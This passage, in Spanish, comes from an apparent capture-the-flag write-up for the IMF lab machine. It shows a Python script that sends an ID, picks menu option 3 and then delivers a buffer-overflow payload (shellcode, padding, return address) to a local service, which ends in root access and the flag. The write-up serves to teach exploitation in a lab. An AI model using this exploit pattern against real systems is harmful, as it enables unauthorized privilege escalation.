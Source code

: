 Es aquí, donde veremos si nuestro script está funcionando, nos pedirá el ID, la opción 3 y luego ya entraría el payload.
✔Si el programa objetivo envía un mensaje solicitando datos adicionales antes de que puedas enviar tu cadena de datos, necesitarías recibir ese mensaje primeramente utilizando s.recv() para poder enviar tu información posteriormente.
![id](https://helhat.github.io/assets/img/IMF/id.png){: .normal }
![opcion](https://helhat.github.io/assets/img/IMF/opcion.png){: .normal }

```python
#El \n representa a un "Enter"

payload = shellcode + b"A" * (offset-len(shellcode)) + pack("<I",0x8048563) + b"\n"
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1",7788))

#Como el binario pide datos adicionales antes de ejecutar nuestro payload, agregamos:
s.recv(1024)
s.send(b"4893572\n")   ##ID + Enter
s.recv(1024)
s.send(b"3\n")         ##Ingresar Opcion 3 + Enter
s.recv(1024)
s.send(payload)
```
![root](https://helhat.github.io/assets/img/IMF/root.png){: .normal }

Y de esta manera se logro escalar privilegios, con un BufferOverflow y capturar la flag.
![fin](https://helhat.github.io/assets/img/IMF/fin.png){: .normal }
